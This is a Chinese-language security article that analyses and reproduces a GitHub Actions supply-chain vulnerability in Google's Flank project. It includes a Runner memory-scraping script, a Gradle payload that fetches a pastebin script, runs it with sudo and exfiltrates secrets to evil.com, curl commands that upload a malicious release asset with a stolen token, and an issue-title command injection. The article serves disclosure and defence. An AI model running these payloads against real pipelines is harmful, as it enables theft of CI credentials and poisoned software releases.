

---

tags: Cloud Native Security News, CICD, Github Action
version: v0.1.0

---

# 云原生安全资讯：谷歌Flank潜藏3年的Github Action供应链攻击

> 🌐 本文首发于【国际云安全联盟CSA】公众号
[https://mp.weixin.qq.com/s/-fO-ElGSt6bCXC2nEHVInQ](https://mp.weixin.qq.com/s/-fO-ElGSt6bCXC2nEHVInQ)

## 0x01 简介

Flank[1] 是谷歌 Firebase Test lab 开源在 Github 的一个项目，用于同时对多个安卓和IOS设备进行测试。2024年4月15号 AWS 安全工程师 Adnan Khan 公布了关于该项目代码仓库 Github Action CI/CD 存在漏洞的细节[2]，漏洞在2020年于此 代码合并请求[3] 引入，3年多一直没人发现（这个仓库谷歌一直有赏金计划），谷歌把该漏洞归属为供应链漏洞，并给予该漏洞赏金 **$7500** 美刀（约 5w+ 人民币）。

利用该漏洞可以获得 Flank Github 代码仓库的**写权限的 GITHUB_TOKEN** 和**谷歌云的账户密钥**（看给的赏金大概能想到该密钥能进一步获取到的权限），该漏洞于2024年4月11号修复。

漏洞整体利用链图解（文章后面会附上复现环境和步骤～）：



另外，具有写权限的 `GITHUB_TOKEN` 可以用来发布 GitHub Release 以及 Release 附件，从而发布恶意的编译后二进制软件来达到供应链攻击的效果，原文作者由于是 Bug Bounty，渗透讲究点到为止，本文也会涉及这部分利用手段。

## 0x02 背景

### Github Action

Github Action[4] 用于在 Github 代码仓库中自动化、自定义和执行软件开发工作流程，也可用于持续集成持续部署流程（即 CI/CD），十分便于开发者使用，而不用专门去部署一套 Jenkins 之类的用于 CICD。具体表现在 Github 上，就是在代码仓库根目录建一个 `.github` 目录，里面放着一些定义自动化任务的 yaml/yml 文件，称之为 `workflow`（工作流），


关于 `.github` 目录大家应该挺眼熟的，但**一般我们都会忽略不太起眼的它，因为一般它不会存在什么特别的安全漏洞**，但本文的重点就是里面的 `workflow`。

`workflow` 触发的方式很多，比如在 `git push` 代码到仓库时触发，亦或是在创建代码合并请求（Pull Request，下文简称 `PR`）触发等，触发后通过 Github Runner（执行器） 去执行相应的 `workflow`，触发等方式多种多样，触发方式写法一般如下：

```yaml
name: GitHub Actions Demo

on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]

jobs:
 Actions-Hello-World:
   runs-on: ubuntu-latest
   steps:
     - run: echo "Hello World!"
```

上下 `workflow` 即是在代码 push 到 main 分支或者是 PR 入 main 时触发，运行结果输出 `Hello World`

在本漏洞中，通过在 `PR` 评论区回复特定关键字触发存在漏洞的 `workflow`。

### Github Action Secrets

关于 Github Action secrets[6]，比如我们给代码跑完单元测试后想要自动部署，那部署到相关环境需要的SSH或其他密钥肯定是不想明文放出来的，比如硬编码在仓库代码中，或者直接写在仓库配置文件中，这样大家就都能在 Github 仓库文件中看到了。

使用 secrets 的好处是，可以把这类密钥在跑 workflow 时，通过 Runner 环境变量的形式带进去。这样就解决刚刚说的问题了。此外，就算相关代码不小心把某个上下文变量日志给打了出来，secret 恰好包含在其中，Github Runner 显示的日志，也会把 secrets 脱敏显示，也就是说，就算我们主动 `print($secret)`，他在 Runner 日志中显示的也是脱敏数据，如 `******`。

以 `GITHUB_` 开头的为 Github Runner 内置的一些环境变量或Secret[5]，在 Action 中的 yaml 通过 `${{ secrets.GITHUB_TOKEN }}` 即可引入，非常方便。

先献上存在漏洞的 workflow

[https://github.com/Flank/flank/blob/v23.10.1/.github/workflows/run_integration_tests.yml](https://github.com/Flank/flank/blob/v23.10.1/.github/workflows/run_integration_tests.yml)

直接看漏洞存在和利用点可能没那么明显，下面来分析一下

## 0x03 漏洞发现和利用

其实这类由 Github Action 或 PR 引发漏洞，并且是有赏金计划的，一般在数日内就会被发现。因为多数赏金猎人，基本都是通过自动化的工具对 `.github` 目录里的文件进行批量检测，相关的工具有 gato[7] 和 gh-workflow-auditor[8]，其中 gato 是原文作者是通过在上一家公司工作开源的自研工具。该漏洞是他对 gato 不断优化的 gato-x 版发现的，目前优化版 gato-x 还没开源出来，原作者还在尽可能的优化，然后在不久的将来放出来。

至于这个漏洞为啥一直没被发现的原因，他和普通的 Action 注入不太一样，例如下面这个流水线[9]

```yaml
name: Issues

on:
  issues:
    types: [opened]

jobs:
  print_issue_title:
    runs-on: ubuntu-latest

    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```

如果攻击者在这个项目 Github 上新建一个 issue 的标题为 `test" && ls / && echo "` ，会直接造成流水线 runner 里的命令注入


即，这种 Action 注入是执行命令时直接拼接了外部可控的变量。

而 Flank 触发流水线时并没有直接拼接可控变量，只是获取了 PR 的序号，

```yaml
- name: Get PR number
     id: pr_number
     if: ${{ github.event_name == 'issue_comment'}}
     run: |
       PR_URL="${{ github.event.issue.pull_request.url }}"
       PR_NUMBER=${PR_URL##*/}
       echo "number=$PR_NUMBER" >> $GITHUB_OUTPUT
```

然后通过 `gh` 命令切换到我们 PR 的代码上，这时才出现我们可控的部分

```yaml
- name: Checkout Pull Request
    if: github.event_name == 'issue_comment'
    env:
      GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    run: |
      gh pr checkout ${{ needs.should_run_it.outputs.pr_number }}
```

即此时会切换到我们 PR 的代码，但此时它仍然没有拼接任何东西。特别是对于自动化工具而言，这里根本就不会检测出来，因为没有拼接可控的东西。由于 Github 上的 workflow 太多，一个个找和看，其实是不好找出来的。就像我们看存在问题的 workflow，一下子我们也没能太看出来存在什么问题，这就是为啥这个漏洞存在这么久才被发现。

原作者检测工具的设计目的就不太一样，他是扫描存在触发风险点的地方，然后在回过头来看是不是误报，尽管有接近70%的是误报。

在看整个 workflow 文件，在项目 PR 评论区回复 `@flank-it` 会触发 `should_run_it`  job，这个 job env 带有 `GITHUB_TOKEN` secret，并且该 token 有该项目的写权限（如果没有该项目的写权限，这个在评论区加个眼睛 👀 的 emoji 是加不上的）


然后 `should_run_it` 运行结果 `run_integration_tests` 为 `true` 会触发 env 带有 `GCLOUD_KEY` secret  的 job


到这里，还没讲到，Action 注入的，我们可控的恶意代码在哪呢？目前我们向此仓库发 PR，然后流水线中 `gh checkout 我们的PR` 切换到我们的代码。其实对于一般的流水线，都会有构建操作，即打包代码之类的，这里用的是 `gradle`

```yaml
- name: Gradle integration tests
  uses: gradle/gradle-build-action@v2.9.0
  id: run-it
  env:
    GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    HEAD_REF: ${{ github.ref }}
  with:
    arguments: "integrationTests"
```

然后 `gradle` DSL（领域定义语言）是基于 Groovy的[10]！Gradle 5.0 后，还支持了 Kotlin 语言，也就是说我们可以执行通过任意代码执行，从而达到任意命令执行！从而达到就可以把这两个 secret 通过 curl 命令外带即可（非项目成员记得是看不到流水线运行结果的，所以不能像下面漏洞复现那样编码输出）。

恶意 PR

[https://github.com/Flank/flank/pull/2481/files#diff-5625e3601fa0ad3a6a2824239e5a2fde71c149597d31394f9224a08c24be7b9d](https://github.com/Flank/flank/pull/2481/files#diff-5625e3601fa0ad3a6a2824239e5a2fde71c149597d31394f9224a08c24be7b9d)

然后作者为了规避 harden-runner[11] 安全检测机制，只改了原仓库的 gradle，其他都是改 fork 到自己仓库的，因为在自己 fork 的仓库改，在原仓库也会留有 commit 信息（虽然最后还是告警了，原文还是有提到其他规避方法的）

由于执行 gradle 没有代入 secret 环境变量，这里需要用个 trick，即读取进程内存来获取 runner 里的 secret。因为就算是不同阶段的 job，一般都是在一个容器里执行。

```python
#!/usr/bin/env python3

# based on https://davidebove.com/blog/?p=1620

import sys
import os
import re

def get_pid():
    # https://stackoverflow.com/questions/2703640/process-list-on-linux-via-python
    pids = [pid for pid in os.listdir('/proc') if pid.isdigit()]

    for pid in pids:
        with open(os.path.join('/proc', pid, 'cmdline'), 'rb') as cmdline_f:
            if b'Runner.Worker' in cmdline_f.read():
                return pid

    raise Exception('Can not get pid of Runner.Worker')

if __name__ == "__main__":
    pid = get_pid()
    print(pid)

    map_path = f"/proc/{pid}/maps"
    mem_path = f"/proc/{pid}/mem"

    with open(map_path, 'r') as map_f, open(mem_path, 'rb', 0) as mem_f:
        for line in map_f.readlines():  # for each mapped region
            m = re.match(r'([0-9A-Fa-f]+)-([0-9A-Fa-f]+) ([-r])', line)
            if m.group(3) == 'r':  # readable region
                start = int(m.group(1), 16)
                end = int(m.group(2), 16)
                # hotfix: OverflowError: Python int too large to convert to C long
                # 18446744073699065856
                if start > sys.maxsize:
                    continue
                mem_f.seek(start)  # seek to region start
            
                try:
                    chunk = mem_f.read(end - start)  # read region contents
                    sys.stdout.buffer.write(chunk)
                except OSError:
                    continue
```

## 0x04 漏洞复现

### 环境搭建（可跳过）

搭建好的复现环境：[https://github.com/tarihub/hack-flank-cicd](https://github.com/tarihub/hack-flank-cicd)

复现环境的项目配置（自己搭建就需要注意下，免得踩坑）：

- [https://github.com/tarihub/hack-flank-cicd/settings/actions](https://github.com/tarihub/hack-flank-cicd/settings/actions) 需要在这里勾上 Workflow permissions 的 Read and write permissions 权限，不然小眼睛👀交互打不上（其实主要是模拟原项目给了 GITHUB_TOKEN 的写权限）


- secret 记得 base64编码一下，不然解码会失败


### 复现步骤

先 fork [https://github.com/tarihub/hack-flank-cicd](https://github.com/tarihub/hack-flank-cicd) 项目过来，然后把 `settings.gradle.kts` 改为

```bash
rootProject.name = "hack-flank-cicd"

// For VRP Test, not malicious.
fun String.runCommand(): String? = try {
    ProcessBuilder("/bin/sh", "-c", this)
            .redirectOutput(ProcessBuilder.Redirect.PIPE)
            .redirectError(ProcessBuilder.Redirect.PIPE)
            .start()
            .inputStream.bufferedReader().readText()
} catch (e: Exception) {
    e.printStackTrace()
    null
}

// 这里不用 base64 是因为 base64 编码后容易字符刚好是 github 判定为敏感输出，会打码成 *** 。当然外带就没这个问题了
val output = "curl -sSfL https://pastebin.com/raw/UUPC3Q79 | sudo python3 | tr -d '\\0' | grep -aoE '\"[^\"]+\":\\{\"value\":\"[^\"]*\",\"isSecret\":true\\}' | sort -u | xxd -p | tr -d '\\n'".runCommand()
println("Shell command output: $output")
val post = "if [[ \$OSTYPE == \"linux-gnu\" ]]; then curl -X POST http://evil.com/ --data s=\"$output\"; fi".runCommand()
```

> PS：这里的 pastebin 内容就是上面的 读取进程内存 处，用来读取 Runner 进程内存中存的 secret
> 

commit 并 push 后发送 PR 到原仓库，在 PR 评论区留言 `@flank-it` 触发 Github Action


运行过程，这里为了方查看所以直接输出


正常情况下利用，由于非项目成员，看不到运行结果，所以需要用 curl 外带


就得到 GCLOUD_KEY 和 GITHUB_TOKEN


base64解码得 `flag{GCLOUD_KEY}`

接下来，我们拿到具有写权限的 Github_TOKEN 就可以发布 release 附件了，一般项目都会有 release，所以我们先创建一个 release，创建好标签命名完标题保存

[https://github.com/tarihub/hack-flank-cicd/releases/new](https://github.com/tarihub/hack-flank-cicd/releases/new)

> 这里注意，获取到的 `GITHUB_TOKEN` 要在流水线运行结束前使用，否则 token 会失效，因此我们可以通过 sleep 等各种方式阻塞流水线的运行
> 

根据 Github 文档[12]，先获取 RELEASE_ID 

```bash
curl -L \
  -H "Accept: application/vnd.github+json" \
  -H "Authorization: Bearer <YOUR-TOKEN>" \
  -H "X-GitHub-Api-Version: 2022-11-28" \
  https://api.github.com/repos/OWNER/REPO/releases/latest
```


然后通过接口增加/修改 release 附件即可

```bash
curl -L \
  -X POST \
  -H "Accept: application/vnd.github+json" \
  -H "Authorization: Bearer <YOUR-TOKEN>" \
  -H "X-GitHub-Api-Version: 2022-11-28" \
  -H "Content-Type: application/octet-stream" \
  "https://uploads.github.com/repos/OWNER/REPO/releases/RELEASE_ID/assets?name=evil.txt" \
  --data-binary "@evil.txt"
```


来到 Github Release 页面就看到我们的恶意附件就上传上去了


至于 `GCLOUD_KEY` 的进一步利用，网上有很多文章介绍，这里就不进一步深入了

## 0x05 总结

该漏洞的修复，官方去除了在 PR 评论区留言触发流水线的方式，并且不会切换到 PR 部分对代码，只保留了定期触发流水线，这样攻击者就无法触发可控的攻击代码了。

[https://github.com/Flank/flank/pull/2482](https://github.com/Flank/flank/pull/2482)

纵观漏洞从发现到利用整条利用链还是相当精彩的，原来 Github Action CI/CD 还能这样利用，平常审计代码都是直接跳过 Github Action 的… 又一次感受到公有云的安全难做，有时候这些密钥真不知道怎么就泄漏出去了。

因此，广大开发者使用 Github Action 时也请注意，当 workflow 带有 secret 时，注意避免各种形式让未授权人员在 Github runner 中执行外部可控的代码或逻辑，也应该部署 harden-runner[11] 等相关工具，防止以及监测可能的异常 workflow，从而保障开源代码的安全。

## 0x06 参考链接

[1] [https://github.com/Flank/flank](https://github.com/Flank/flank)

[2] [https://adnanthekhan.com/2024/04/15/an-obscure-actions-workflow-vulnerability-in-googles-flank](https://adnanthekhan.com/2024/04/15/an-obscure-actions-workflow-vulnerability-in-googles-flank)

[3] [https://github.com/Flank/flank/pull/1409](https://github.com/Flank/flank/pull/1409)

[4] [https://docs.github.com/zh/actions](https://docs.github.com/zh/actions)

[5] [https://docs.github.com/zh/actions/security-guides/using-secrets-in-github-actions](https://docs.github.com/zh/actions/security-guides/using-secrets-in-github-actions)

[6] [https://docs.github.com/zh/enterprise-cloud@latest/actions/security-guides/automatic-token-authentication#about-the-github_token-secret](https://docs.github.com/zh/enterprise-cloud@latest/actions/security-guides/automatic-token-authentication#about-the-github_token-secret)

[7] [https://github.com/praetorian-inc/gato](https://github.com/praetorian-inc/gato)

[8] [https://github.com/TinderSec/gh-workflow-auditor](https://github.com/TinderSec/gh-workflow-auditor)

[9] [https://cycode.com/blog/github-actions-vulnerabilities/](https://cycode.com/blog/github-actions-vulnerabilities/)

[10] [https://docs.gradle.org/current/dsl/index.html](https://docs.gradle.org/current/dsl/index.html)

[11] [https://github.com/step-security/harden-runner](https://github.com/step-security/harden-runner)

[12] [https://docs.github.com/zh/rest?apiVersion=2022-11-28](https://docs.github.com/zh/rest?apiVersion=2022-11-28)
